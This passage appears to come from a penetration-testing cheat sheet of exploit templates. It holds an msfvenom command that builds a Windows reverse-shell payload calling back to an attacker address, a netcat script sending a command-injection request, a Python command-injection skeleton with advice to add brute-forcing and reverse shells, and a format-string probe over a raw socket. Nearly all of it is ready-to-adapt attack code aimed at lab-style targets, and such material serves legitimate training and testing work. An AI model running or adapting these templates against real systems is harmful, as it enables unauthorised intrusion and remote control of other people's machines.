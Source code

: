 #### 🔹 Example msfvenom command

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -b "\x00" -f python
```

***

### V. ⚙️ Bash Exploit Template (Network)

```bash
#!/bin/bash
# Basic socket exploit example
host="10.10.10.5"
port=8080
payload="GET /vuln?cmd=id HTTP/1.1\r\nHost: $host\r\n\r\n"

echo -e "$payload" | nc $host $port
```

***

### VI. 🧠 Exploit Skeleton — Web Command Injection

```python
import requests

url = "http://target/vuln.php"
cmd = "id"

payload = {"cmd": f"$( {cmd} )"}
r = requests.post(url, data=payload)

print(r.text)
```

**Enhancements:**

* Add threading for brute-force.
* Integrate reverse shell or file upload for escalation.

***

### VII. 🧩 Exploit Skeleton — Format String

```python
#!/usr/bin/env python3
import socket, struct

def p(x): return struct.pack("<I", x)

target = ("10.10.10.5", 1337)
payload = b"%p " * 10  # test for format string vuln

s = socket.socket()
s.connect(target)
s.send(payload)
print(s.recv(4096))
s.close()
```
